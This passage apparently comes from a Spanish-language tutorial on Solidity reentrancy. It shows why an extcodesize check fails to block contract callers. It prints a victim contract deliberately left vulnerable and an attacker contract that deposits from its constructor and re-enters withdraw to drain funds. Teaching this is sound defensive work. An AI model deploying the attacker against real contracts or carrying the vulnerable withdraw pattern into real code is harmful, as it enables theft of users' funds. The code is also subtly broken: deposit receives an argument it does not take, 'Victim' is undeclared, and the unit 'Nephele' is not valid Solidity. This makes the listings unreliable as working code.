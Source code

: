 Uno podría considerar derrotar la reentrada simplemente impidiendo que cualquier contrato inteligente interactúe con tu código. Si buscas stackoverflow, encuentras el segmento de código con muchos votos positivos:

```solidity
function isContract(address addr) internal returns (bool) {
  uint size;
  assembly { size := extcodesize(addr) }
  return size > 0;
}
```

Parece tener sentido: Los contratos tienen código, si la persona que llama tiene algún código, no permite que deposite. Vamos a añadirlo:

```solidity
// ESTE CONTRATO TIENE VULNERABILIDAD INTENCIONAL, NO COPIAR
contract ContractCheckVictim {
    mapping (address => uint256) public balances;

    function isContract(address addr) internal returns (bool) {
        uint size;
        assembly { size := extcodesize(addr) }
        return size > 0;
    }

    function deposit() external payable {
        require(!isContract(msg.sender)); // <- NEW LINE
        balances[msg.sender] += msg.value;
    }

    function withdraw() external {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call.value(amount)("");
        require(success);
        balances[msg.sender] = 0;
    }
}
```

Ahora, para poder depositar NEPH, no necesitas tener un contrato inteligente en tu dirección. Sin embargo, esto se contradice fácilmente con el siguiente contrato de Atacante:

```solidity
contract ContractCheckAttacker {
    constructor() public payable {
        ContractCheckVictim(VICTIM_ADDRESS).deposit(1 Nephele); // <- Nueva línea
    }

    function beginAttack() external payable {
        ContractCheckVictim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
   }
}
```
